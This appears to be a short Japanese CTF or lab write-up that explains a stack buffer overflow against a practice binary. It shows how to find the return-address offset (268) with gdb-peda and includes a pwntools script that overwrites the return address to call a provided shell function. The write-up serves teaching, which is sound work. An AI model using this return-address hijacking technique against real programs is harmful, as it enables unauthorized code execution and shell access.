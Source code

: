 # overflow
バッファオーバーフローを利用して、プログラムに存在する関数を呼び出す。
ここではシェルを開く関数shellを用意した。
PIEが無効になっているのでアドレスは変動しない。
そのため、pwntoolsやreadelfなどの解析ツールで直接アドレスを知ることができる。
gdb-pedaを使うと、文字列からリターンアドレスを書き換えている位置を特定することができる。
pattcで生成、pattoで位置の特定となる。
この場合268だった。
したがって、最初に268バイト分パディングして、次に呼び出したい関数のアドレスを指定すればいい。
引数が必要ならリターンアドレスの後に順に入れていけばよいはず。

```py
from pwn import *

trg = ELF('overflow')
retaddr = trg.symbols['shell']
offset = 268

payload = 'A' * offset
payload += p32(retaddr)

p = process('overflow')
p.sendline(payload)
p.interactive()
```
